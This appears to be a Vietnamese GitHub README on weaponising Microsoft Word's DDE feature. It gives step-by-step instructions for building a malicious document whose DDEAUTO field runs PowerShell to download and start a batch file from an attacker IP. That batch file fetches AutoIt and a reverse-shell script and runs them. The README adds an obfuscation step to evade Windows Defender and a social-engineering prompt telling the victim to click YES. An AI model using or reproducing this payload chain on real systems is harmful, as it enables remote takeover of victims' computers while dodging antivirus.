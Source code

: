 # Lạm dụng TÍNH NĂNG hợp pháp của Microsoft Word để thực thi mã độc bất hợp pháp
> Mô tả: Lạm dụng tính năng DDE - Dynamic Data Exchange của Office, cho phép ứng dụng Office tải dữ liệu từ các ứng dụng Office khác. Từ đó, thay vì chèn dữ liệu hợp pháp thì chèn dữ liệu độc hại. ***Ví dụ: file Word có thể cập nhật dữ liệu table bằng cách kéo dữ liệu từ tệp Excel mỗi khi tệp Word được mở.***

Như vậy, DDE có khả năng cho phép file Word mỗi khi được mở, có thể thực thi đoạn mã đang được lưu trữ trong một file khác và cho phép các ứng dụng đó có thể gửi bản cập nhật dữ liệu mới.

Dữ liệu độc hại được thực thi ở đây là 1 câu lệnh sẽ được hiện trên máy victim. Câu lệnh này sẽ tải 1 tập lệnh Batch được host trên máy attack về, và tự động thực thi trên máy victim. Tập lệnh Batch có chức năng giúp attacker tạo 1 reverse shell từ máy victim. Tập lệnh Batch sẽ được mã hóa để bypass hoàn toàn Windows Defender.

Lưu ý: DDE hoàn toàn là 1 TÍNH NĂNG, không phải là lỗ hổng. 

## Thực thi

1. Mở file Word lên, vào Insert -> Quick Parts -> Field…
2. Sẽ có 1 bảng hiện ra, tiến hành click double vào ” = (Formula ) ”
3. 1 dòng chữ sẽ hiện ra, chuột phải vào, chọn “Toggle Field Codes”
4. Thay đổi nội dung như sau: 
```console
{DDEAUTO "C:\\windows\\system32\\cmd.exe /k powershell -NoP -NonI -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.2.39:1113/RVSo.bat', 'RVSo.bat');start 'RVSo.bat' # " "for security reasons click YES"}
```
### Nội dung của file RVSo.bat
```bat
@echo

cd %temp%

curl http://192.168.2.39:1113/autoit/AutoIt3.exe > autoit.exe

curl http://192.168.2.39:1113/autoit/RVS.a3x > reverseShell.a3x
autoit.exe reverseShell.a3x
```
Dùng tool [này](https://github.com/thotrangyeuduoi/toolWin/blob/master/obfuscator.cmd) để mã hóa file RVS.bat nhằm bypass AntiVirus
```cmd
C:\User\Document\obfucator.cmd RVS.bat
```
### File liên quan

[ReverseShell.au3](https://github.com/thotrangyeuduoi/template/blob/master/example_attack/ReverseShell_by_Autoit.au3)

Ref: https://anonyviet.com/cach-hacker-bypass-av-xam-nhap-windows-voi-autoit/
